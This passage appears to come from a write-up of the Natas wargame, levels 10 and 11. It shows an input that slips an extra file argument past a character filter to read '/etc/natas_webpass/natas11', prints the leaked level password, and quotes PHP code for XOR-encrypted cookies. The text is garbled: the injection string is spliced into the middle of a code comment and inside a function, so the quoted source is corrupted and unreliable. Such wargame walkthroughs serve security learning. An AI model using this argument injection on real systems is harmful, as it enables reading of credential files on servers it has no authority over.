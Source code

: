 ```php
}
```

now there is some input validation to avoid things like ; \| and &, but our trick from natas09 still works here.

```text
1 /etc/natas_webpass/natas11
```

```text
Output:

/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

## natas11

Cookies are protected with XOR encryption

view source

```php
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';
1 /etc/natas_webpass/natas11
    // Iterate through eac1 /etc/natas_webpass/natas11h character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

```